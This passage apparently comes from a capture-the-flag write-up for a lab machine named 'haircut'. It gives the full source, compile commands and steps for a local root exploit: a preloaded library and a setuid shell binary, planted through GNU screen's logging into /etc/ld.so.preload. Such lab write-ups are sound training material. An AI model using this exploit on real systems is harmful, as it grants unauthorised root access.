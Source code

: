 ```bash
┌──(kali㉿kali)-[~/machines/linux/haircut/privesc]
└─$ gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
```

- Create rootshell.c and compile rootshell

```bash
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```bash
┌──(kali㉿kali)-[~/machines/linux/haircut/privesc]
└─$ gcc -o rootshell rootshell.c -static
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
```

- Transfer this file to the tmp directory and explooit the vuln.

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

And we have a shell as root.

```bash
www-data@haircut:/etc$ /tmp/rootshell 
# whoami
root
```